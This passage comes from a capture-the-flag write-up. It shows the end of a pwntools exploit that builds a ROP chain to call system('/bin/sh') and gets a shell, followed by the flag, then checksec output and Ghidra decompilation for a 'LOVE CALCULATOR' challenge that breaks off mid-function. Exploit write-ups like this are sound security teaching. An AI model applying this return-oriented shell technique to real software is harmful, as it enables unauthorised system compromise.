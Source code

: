 ```py
payload += p64(rop.find_gadget(["pop rdi", "ret"]).address)
payload += p64(next(libc.search(b"/bin/sh")))
payload += p64(libc.symbols["system"])

p.sendlineafter(b"unlock the hidden door:\n", payload)

p.interactive()
p.close()
```  
  
FLAG: `jadeCTF{p1v0t!_p1v0t!_p1v0t!}`  
  
**NOTE:** There is another route possible in which you don't need to call the `hidden_level()` function. You can call the `odd_option()` function again and again and perform stack pivoting each time.

# LOVE CALCULATOR
First, perform checksec on the binary:
```
Arch:     amd64-64-little
RELRO:    Partial RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      No PIE (0x400000)
```
Now, let's analyze the binary in Ghidra. This is the main function:
```c
undefined8 main(void)
{
  size_t sVar1;
  char local_28 [32];
  
  setvbuf(stdout,(char *)0x0,2,0);
  setvbuf(stdin,(char *)0x0,1,0);
  puts("Welcome to *my* world! It sucks.");
  printf("Please enter your name: ");
  fgets(local_28,0x13,stdin);
  putchar(10);
  sVar1 = strcspn(local_28,"\r\n");
  local_28[sVar1] = '\0';
  analyze_name(local_28);
  puts("Bye Bye");
  return 0;
}
```
It inputs our name, and then calls `analyze_name()`. Let's see what that is:
```c
void analyze_name(undefined8 param_1)
{
  int local_7c;
  char local_78 [112];
  
  printf("Hello, %s! I heard you\'ve come here to analyze yourself.\n",param_1);
  puts("1. Cleanse yourself\n2. Calculate love percentage\n3. Exit");
  printf("Please choose what you would like to do: ");
  __isoc99_scanf(&DAT_00400dda,&local_7c);
  if (local_7c == 1) {
    puts("Cleansing....");
    puts("Cleanse successful. You are fully pure now!");
  }
  else {
    if (local_7c != 2) {
      puts("Sorry to see you go :-(");
                    /* WARNING: Subroutine does not return */
      exit(0);
```